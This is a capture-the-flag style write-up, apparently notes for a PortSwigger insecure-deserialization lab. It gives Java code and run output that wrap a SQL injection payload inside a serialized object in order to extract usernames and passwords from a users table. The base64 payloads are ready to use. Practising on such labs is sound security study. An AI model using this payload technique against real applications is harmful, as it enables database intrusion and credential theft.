


Insecure deserialization Expert Lab

官方來源:
[Generic Java Program for Serializing Objects](https://github.com/PortSwigger/serialization-examples/tree/master/java/generic)

```
📁 /serialization-examples/java/solution
└── 📁 data/productcatalog
      └── 📄 Product.java
      └── 📄 ProductTemplate.java
└── 📄 Main.java
```
#### Main.java
```
import data.productcatalog.ProductTemplate;
import java.io.*;
import java.util.Base64;

public class Main {
    public static void main(String[] args) {
        try {
            ProductTemplate originalObject = new ProductTemplate(
                "' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--"
            );

            String serializedObject = SerializationUtils.serialize(originalObject);
            System.out.println("Serialized object: " + serializedObject);

            ProductTemplate deserializedObject = SerializationUtils.deserialize(serializedObject, ProductTemplate.class);
            System.out.println("Deserialized object ID: " + deserializedObject.getId());

        } catch (Exception e) {
            System.err.println("Error during serialization/deserialization: " + e.getMessage());
            e.printStackTrace();
        }
    }
}

class SerializationUtils {
    public static String serialize(Serializable obj) {
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
            return Base64.getEncoder().encodeToString(baos.toByteArray());
        } catch (IOException e) {
            throw new RuntimeException("Serialization failed", e);
        }
    }

    public static <T> T deserialize(String base64SerializedObj, Class<T> clazz) {
        try (ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj));
             ObjectInputStream in = new ObjectInputStream(bais)) {
            Object obj = in.readObject();
            if (!clazz.isInstance(obj)) {
                throw new ClassCastException("Deserialized object is not of type " + clazz.getName());
            }
            return clazz.cast(obj);
        } catch (IOException | ClassNotFoundException e) {
            throw new RuntimeException("Deserialization failed", e);
        }
    }
}

```

#### Running
```
$ java Main.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAXycgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QodXNlcm5hbWUgQVMgbnVtZXJpYyksIE5VTEwsIE5VTEwsIE5VTEwsIE5VTEwgRlJPTSB1c2Vycy0t
Deserialized object ID: ' UNION SELECT NULL, NULL, NULL, CAST(username AS numeric), NULL, NULL, NULL, NULL FROM users--
```


```
$ java Main.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAXycgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QocGFzc3dvcmQgQVMgbnVtZXJpYyksIE5VTEwsIE5VTEwsIE5VTEwsIE5VTEwgRlJPTSB1c2Vycy0t
Deserialized object ID: ' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--
```
